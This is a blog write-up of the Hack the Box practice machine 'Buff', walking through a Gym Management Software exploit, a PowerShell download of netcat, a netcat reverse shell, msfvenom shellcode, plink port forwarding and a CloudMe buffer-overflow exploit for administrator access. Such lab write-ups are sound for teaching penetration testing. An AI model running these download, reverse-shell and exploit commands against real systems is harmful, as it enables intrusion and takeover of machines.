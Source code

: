 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
date = 2020-07-18T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/08/info.png"
slug = "hack-the-box-buff"
summary = "Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "easy", "windows", "CVE", "webshell", "port forwarding", "reverse shell", "plink"]
title = "Hack the Box - Buff"

+++


Welcome back everyone! Today we are going to be doing the Hack the Box machine - Buff. This is listed as an easy Windows box. Let's jump in!

As always we start with `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.198`

Here are our results:
```
Nmap scan report for 10.10.10.198
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

We see only two ports. So we head over to port `8080` and see what is being hosted. We land on a gym page. Exploring the page a bit shows that it's built on a software called `Gym Management Software 1.0`. A quick google shows us there are a few possible exploits for this software.

![](/images/2020/08/image.png)

We will quickly mirror this exploit to our working directory with `searchsploit`.

Command:
`searchsploit -m 48506`

Reading through the exploit and how it works, we simply need to supply our target URL.

Command:
`python2 48506.py http://10.10.10.198:8080/`

![](/images/2020/08/buffshell.gif)

We get back a webshell. We can now use this to quickly snag our `users.txt` flag.

![](/images/2020/08/image-1.png)

Now that we have this flag, we can look at creating a more stable connection and look for ways to escalate. We can use `nc` or `plink` to create a connnection back to our attacking system. First we need to download those tools to this system.

Command:
`powershell.exe -exec bypass -C "iex(New-Object Net.WebClient).DownloadFile('http://10.10.14.210/nc64.exe', 'C:\xampp\htdocs\gym\upload\nc64.exe')"`

Once thats on the system we can create our callback.

Command:
`.\nc.exe 10.10.14.210 7777 -e powershell.exe`

Make sure we have our listener as well.
`nc -lcnp 7777`

Once we do that we get our shell back.

![](/images/2020/08/image-2.png)

Now we just download `winPEAS` the same as we have for other tools:

Command:
`iex(New-Object Net.WebClient).DownloadFile("http://10.10.14.210/winPEAS.exe", "C:\Temp\wp.exe")`

When we try to run the file however, we are blocked.

![](/images/2020/08/image-3.png)

So we just download the `.bat` version instead. As we sift through this data we don't see much too exciting. As we manually browse the the contents of the machine, we noticed `CloudMe_1112.exe` in downloads. When we check against the `winPeas` scan from above we see that port 8888 is open locally, the port `CloudMe` uses. A quick search for any exploits of the software shows there is one on [exploit-db](https://www.exploit-db.com/exploits/48389).

The goal here is to do some port forwarding to our machine and run this exploit. To do this we'll need to use `plink`. We'll also need to create our own shellcode exploit as well.

First we'll generate our shellcode:

Command:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.210 LPORT=6969 -f c > shellcode`

We'll need to put this code in our exploit code later on. Next, let's get `plink` onto the target machine.

Command:
`curl http://10.10.14.210/plink.exe -o C:\tmp\plink.exe`

We can now create a port forwarding scenario to access remote ports locally. First start our `SSH` service if it's not already running.

Command:
`service ssh start`

Now create our port forward:

Command:
`.\plink.exe -ssh rootflag@10.10.14.210 -R 1234:127.0.0.1:8888`

This will then prompt us to login with the account. Once we do we should see a basic prompt.

![](/images/2020/08/image-5.png)

Now we should have the remote port of `8888` being forwarded to our local port of `1234`. If you try to curl the port, it's not going to get back any info but that's normally what I would do to be sure it worked.

Now that we have the ports forwarded, we can modify the exploit we found earlier - `44470.py`. First we need to replace the shellcode inside the exploit with our generated backdoor code. That's the code on line 31 - 52. Once we've pasted in our new shell code, we need to modify line 57 to reflect our port. In this case, we set or local port to `1234`. So we'll need to make that the value rather than `8888`

![](/images/2020/08/image-6.png)

Now with that saved. We can setup another listener to catch our reverse shell for the exploitcode that we made in the first step.

Command:
`nc -lvnp 6969`

We can now run the exploit. If you're on a public machine like myself, you might need to run it a few times.

Command:
`python2 44470.py` 

If all goes well, your listen will catch the connection.

![](/images/2020/08/image-4.png)

We now have an admin shell. We get our `root.txt` flag and box complete!

If you learned something in this box, send some respect my way - [HTB Profile](https://www.hackthebox.eu/home/users/profile/95635)



